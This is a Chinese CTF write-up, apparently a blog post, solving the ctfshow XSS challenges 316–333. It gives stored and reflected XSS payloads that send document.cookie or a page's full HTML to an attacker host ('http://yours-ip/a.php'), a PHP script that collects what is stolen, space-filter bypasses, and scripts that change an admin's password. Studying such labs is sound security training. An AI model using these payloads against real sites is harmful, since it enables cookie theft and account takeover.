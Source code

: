 ```yaml
---
title: ctfshow-xss
date: 2021-09-04 17:38:33
author: Na0H
headimg: /img/atimg/xss.png
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow xss
description:  ctfshow xss

---
```


<!-- more -->

xss平台：
[XSS平台-免费XSS平台 (xsshs.cn)](https://xsshs.cn/xss.php?do=login)
[XSS平台 - （支持http/https）XSS Platform](https://xss.pt/xss.php?do=login)

## 316

xss平台直接的payload贴进去就行

也可以用vps来拿：

开启vps的http服务(我用的是kali)：

```sh
service apache2 start
# 关闭用stop
service apache2 stop
```

然后写个php来将flag存在本地里，要注意的是要给tmp目录可写权限，不然是写不进去的

```php
<?php

$content = $_GET[1];
if(isset($content)){
        file_put_contents('tmp/flag.txt',$content);
}else{
        echo 'no date input';
}
```

然后传payload就行：

```html
<script>document.location.href='http://xxx/a.php?1='+document.cookie</script>
```



## 317-319

```html
<body onload="window.location.href='http://xxx/a.php?1='+document.cookie"></body>
```



## 320-326

过滤空格和xss，可以用`/`绕过

```html
<body/onload="window.location.href='http://yours-ip/a.php?1='+document.cookie"></body>
```

## 327

![](https://i.loli.net/2021/09/04/bLjMsCdUBQ3Yryw.png)
还是上面的payload，收件人要填admin来让机器人点击

## 328

登录注册，还有个页面提示只有管理员可以查看各个用户的用户名和密码
那么可以直接拿管理员的cookie，然后修改cookie伪造为管理员登录进行查看

在注册页面的密码处插入xss代码，等管理员点击用户管理页面就能触发存储xss
ps：这里body用不了了--改回script就可以

```html
<script>document.location.href='http://yours-ip/a.php?1='+document.cookie</script>
```



## 329

cookie用不了，不过因为可以执行js，可以爬整个html源码下来

```js
var img = new Image();
img.src = 'http://yours-ip/a.php?1='+document.getElementsByTagName('html')[0].innerHTML;
document.body.append(img);
```

```html
<script src="http://yours-ip/a.js"></script>
```

或者省略点根据html定位只取用户名和密码，也可以遍历定位ctfshow{xxx}都行

```js
document.querySelector('#top > div.layui-container').textContent;
```

## 330

要注意的是这里的插入点是注册的用户名
可以让管理员修改它的密码

```js
<script>window.location.href='http://127.0.0.1/api/change.php?p=123';</script>
```

也可以延续上题的做法继续爬源码
(就会发现表单里的用***加密了
flag出现在admin用户名旁)

## 331

可以在url/js/select.js找到post的js代码，修改一下，如下：

```js
<script>$.ajax({url:'api/change.php',type:'post',data:{p:'123'}});</script>
```

将管理员密码修改登录即可

## 332

让admin给自己转钱：
![](https://i.loli.net/2021/09/04/aoTAX2QfhYdpK3w.png)
再去购买flag

## 333

自己给自己转钱，bp跑一下就好